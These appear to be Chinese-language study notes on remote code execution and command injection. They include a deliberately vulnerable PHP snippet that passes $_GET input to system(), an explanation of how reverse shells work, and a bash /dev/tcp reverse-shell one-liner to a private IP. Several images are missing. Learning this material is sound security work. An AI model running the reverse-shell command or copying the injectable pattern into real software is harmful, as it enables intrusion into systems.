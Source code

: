 

**RCE与命令注入的 区别取决于执行的目标与权限**

系统命令执行漏洞，当然是对操作系统进行控制和输出的

而代码注入漏洞，是对应用程序的相关代码进行注入，从而达到控制应用程序的目的

但有时候他们是交叉的 远程命令执行包含命令注入，命令注入也能RCE，需要调用应用程序的相关代码

```
$user_input = $_GET['input'];`

system('whoami ' . $user_input);`
如果用户能够控制 $_GET['input'] 的值 在系统上面执行任意指令  便算是通过命令注入来造成RCE，如果不是在系统上面执行 在应用程序上面执行 就只能算 命令注入
```



## 可利用函数

### 远程代码执行   

![image-20231109194909338](C:\Users\西山\AppData\Roaming\Typora\typora-user-images\image-20231109194909338.png)

### 远程命令执行

![image-20231109195518051](C:\Users\西山\AppData\Roaming\Typora\typora-user-images\image-20231109195518051.png)

# RCE中 liunx的常识

fd文件描述符  内核为了高效管理已经打开的文件所创建的索引

/proc/ 伪文件系统 所有进程相关的信息

$$liunx当前进程下的pid



## 反弹shell的原理

**反弹shell的原理  通过监听与目标建立socket后拿到shell通过伪终端与shell进行交互，将目标的命令通过socket连接导向本地，而又将结果输出给目标**

![image-20231111232913675](C:\Users\西山\AppData\Roaming\Typora\typora-user-images\image-20231111232913675.png)



# bash -i >& /dev/tcp/192.168.116.128/7777 0>&1



**bash -c**  

 liunx的运行模式   两种形态  一种用户态   一种内核态       内核态   设置时间   liunx提供系统调用  **syscall**  用户态 通过syscall 软 内核态  系统 fork  execve
